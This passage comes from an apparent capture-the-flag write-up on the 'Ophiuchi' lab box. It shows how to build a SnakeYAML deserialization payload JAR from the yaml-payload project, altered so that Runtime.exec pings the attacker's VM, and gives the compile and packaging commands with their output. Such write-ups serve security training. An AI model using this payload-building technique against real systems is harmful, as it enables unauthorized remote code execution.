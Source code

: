 Sending that now just requests the single file, and not the `META-INF` path:

    
    
    10.10.10.227 - - [15/Feb/2021 06:52:56] code 404, message File not found
    10.10.10.227 - - [15/Feb/2021 06:52:56] "GET /yaml-payload.jar HTTP/1.1" 404 -
    

I’ll clone the [yaml-payload repo](https://github.com/artsploit/yaml-payload)
to my VM and copy the `src` folder into my folder for this box:

    
    
    oxdf@parrot$ cp -r src/ ~/hackthebox/ophiuchi-10.10.10.227/
    

I’ll change to `src/artsploit/AwesomeScriptEngineFactory` file to include a
`ping` to my VM:

    
    
     10     public AwesomeScriptEngineFactory() {
     11         try {
     12             Runtime.getRuntime().exec("ping -c 1 10.10.14.7");
     13         } catch (IOException e) {
     14             e.printStackTrace();
     15         }
     16     }
    

Now compile that code, and then put it into a JAR:

    
    
    oxdf@parrot$ javac src/artsploit/AwesomeScriptEngineFactory.java 
    oxdf@parrot$ jar -cvf ping.jar -C src/ .
    added manifest
    adding: artsploit/(in = 0) (out= 0)(stored 0%)
    adding: artsploit/AwesomeScriptEngineFactory.class(in = 1607) (out= 668)(deflated 58%)
    adding: artsploit/AwesomeScriptEngineFactory.java(in = 1480) (out= 392)(deflated 73%)
    ignoring entry META-INF/
    adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
    adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
    

The resulting JAR file has a similar structure as was being requested across
multiple requests in the first attempt:

    
    
    oxdf@parrot$ jar -tf ping.jar 
    META-INF/
    META-INF/MANIFEST.MF
    artsploit/
    artsploit/AwesomeScriptEngineFactory.class
    artsploit/AwesomeScriptEngineFactory.java
    META-INF/services/
    META-INF/services/javax.script.ScriptEngineFactory
    oxdf@parrot$ cat src/META-INF/services/javax.script.ScriptEngineFactory 
    artsploit.AwesomeScriptEngineFactory
    
